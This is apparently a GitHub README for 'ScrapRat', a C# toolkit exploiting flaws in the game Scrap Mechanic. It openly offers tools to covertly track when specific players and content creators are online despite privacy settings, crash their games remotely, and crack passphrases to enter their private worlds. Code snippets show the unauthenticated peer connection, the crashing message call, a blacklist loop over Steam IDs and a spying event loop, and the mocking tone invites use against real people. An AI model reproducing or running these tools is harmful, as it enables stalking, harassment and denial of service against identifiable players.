 # Welcome to the ScrapRat repo!
### What is this??
This is a collection of software, code snippets, sample cli's, and demonstrations outlining different impactful CWE's that are currently available to exploit in [Scrap Mechanic](https://www.scrapmechanic.com/) as of 3/21/2024.
As some of you may know, Scrap Mechanic is a wonderful game with plentiful updates and it should come as no surprise as to why these CWE critical vulnerabilities exist in the game and why they will likely continue to exist for the foreseeable future.

Some of the things the CWE's allow for include `cyber stalking`, `remote game crashing`, and `unauthorized world entry`.

Thats right! Have you ever wanted to know when exactly your favorite content creators are playing Scrap Mechanic?
Well now you can forcefully track their Scrap Mechanic activity without their knowledge even if their steam profile is on maximum privacy and they are always 'offline'.

Why stop there? Maybe you get sick and tired of the Scrap Mechanic content..?
Well have I got some new for you! With just a few clicks, their game wont last half a second before crashing! This means no more of that oh so stinky Scrap Mechanic content.

Now, if thats not your cup of tea I've got one last option for you (my personal favorite). In just (on average) 15 minutes, you will have cracked the code and you will be able to join ANY of your favorite content creators when you use the previous cyber stalking tool to find out when they are playing the game. Now you can play with your favorite content creators!

#
Now, back to business...

This repository implements the follow CWE's:

- [x] [CWE-306](https://cwe.mitre.org/data/definitions/306.html) under [Player-GetConnection#L74-L76](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Player/Player.cs#L74-L76)
```csharp
internal HSteamNetConnection GetConnection() =>
this.hSteamNetConnection ??= (HSteamNetConnection)this.Interupt.RunCancelable(() => 
SteamNetworkingSockets.ConnectP2P
    (ref this.NetworkingIdentity, 0, LongTimeoutOptions.Length, LongTimeoutOptions));
```
With additional parameters under [LongTimeoutOptions#L137-L150](https://github.com/TheGuy920/Crashbot/blob/main/ScrapRat/Player/Player.cs#L137-L150)
```csharp
private static readonly SteamNetworkingConfigValue_t[] LongTimeoutOptions = [
    new SteamNetworkingConfigValue_t
    {
        m_eDataType = ESteamNetworkingConfigDataType.k_ESteamNetworkingConfig_Int32,
        m_eValue = ESteamNetworkingConfigValue.k_ESteamNetworkingConfig_TimeoutConnected,
        m_val = new SteamNetworkingConfigValue_t.OptionValue { m_int32 = 500 }
    },
    new SteamNetworkingConfigValue_t
    {
        m_eDataType = ESteamNetworkingConfigDataType.k_ESteamNetworkingConfig_Int32,
        m_eValue = ESteamNetworkingConfigValue.k_ESteamNetworkingConfig_TimeoutInitial,
        m_val = new SteamNetworkingConfigValue_t.OptionValue { m_int32 = int.MaxValue }
    }
];
```
- [x] [CWE-476](https://cwe.mitre.org/data/definitions/476.html) under [Blacklist#L143](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Blacklist/MechanicNoMore.cs#L143)
```csharp
SteamNetworkingSockets.SendMessageToConnection(connection, 0, 0, 0, out long _);
```
- [ ] [CWE-208](https://cwe.mitre.org/data/definitions/208.html) Comming Soon :tm: under [SkeletonKey](https://commingsoon)

- [ ] [CWE-307](https://cwe.mitre.org/data/definitions/307.html) Comming Soon :tm: under [SkeletonKey](https://commingsoon)


# Projects
The CWE's above have been implemented in a few different and easy to use solutions. 
* [Blacklist](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Game.cs#L58)
* [Spy Tool](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Game.cs#L28)
* [Passphrase Timing Attack](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Game.cs#L88)

### ScrapRatCli [-->](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRatCli/Program.cs#L88)
A sample cli has been created demonstrating how to use the Blacklisting feature
```csharp
foreach (ulong sid in steamids)
    Game.Blacklist.Add(sid, true);
```

### ScrapRatWebApi [-->](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRatCli/Program.cs#L88)
A sample WebApi has been created showcasing the cyber stalking capabilities
```csharp
foreach (var steamid in PeopleToTrack)
{
    MagnifiedMechanic mechanic = Game.BigBrother.SpyOnMechanic(steamid);
    mechanic.PlayerLoaded += _ => Console.WriteLine($"[{DateTime.Now}] Player '{mechanic.Name}' ({mechanic.SteamID}) is loaded.");
    mechanic.OnUpdate += evnt => Console.WriteLine($"[{DateTime.Now}] Player '{mechanic.Name}' ({mechanic.SteamID}) is {evnt}");
}
```
